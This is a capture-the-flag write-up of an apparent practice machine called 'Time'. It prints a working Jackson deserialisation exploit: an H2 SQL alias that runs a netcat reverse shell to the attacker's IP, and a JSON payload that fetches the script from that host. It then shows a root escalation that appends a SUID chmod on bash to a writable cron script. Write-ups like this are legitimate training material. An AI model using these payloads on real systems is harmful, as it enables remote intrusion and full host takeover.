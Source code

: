 # Time

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.102
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 10:05 EDT
Warning: 10.129.85.102 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.85.102
Host is up (0.039s latency).
Not shown: 45364 closed tcp ports (conn-refused), 20169 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### JSON Beautifier

Port 80 was running a JSON Beautifier:

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

This would accept JSON inputs, but I had no idea what kind of engine this was using. There were 2 modes to this: Beautify and Validate, of which the latter was in Beta. I tried sending some random input and managed to trigger an error:

<figure><img src="../../../.gitbook/assets/image (2506).png" alt=""><figcaption></figcaption></figure>

We can view the rest of this error either in Burp or by examining the page source.

{% code overflow="wrap" %}
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
{% endcode %}

So this was using a software called Jackson to validate JSON input. Googling for exploits led me to some deserialisation related exploits where we could achieve RCE. Here's the PoC I used:

{% embed url="https://github.com/jas502n/CVE-2019-12384" %}

We first need to create a reverse shell in SQL interestingly:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f')
```

Afterwards, we need to send this input to the application to be parsed:

<pre class="language-json"><code class="lang-json">[
<strong>"ch.qos.logback.core.db.DriverManagerConnectionSource",
</strong>{
"url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.13\/exploit.sql'"
}
]
</code></pre>

When we send this, it would download the file and give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1791).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GetText

I ran a LinPEAS scan for enumeration. Within the output, this caught my eye:

```
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path      
/usr/bin/gettext.sh                                                                          
You own the script: /usr/bin/timer_backup.sh
/usr/bin/rescan-scsi-bus.sh
```

It seems that we own a script or something. Since this is within the system's PATH variable, we can just edit it. Here's the content of the script:

```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This looks like something that the `root` user would have on a cronjob. As such, we can just append `chmod u+s /bin/bash` to the script.&#x20;

```bash
pericles@time:/usr/bin$ echo 'chmod u+s /bin/bash' >> timer_backup.sh
```

<figure><img src="../../../.gitbook/assets/image (2674).png" alt=""><figcaption></figcaption></figure>

Easy root!
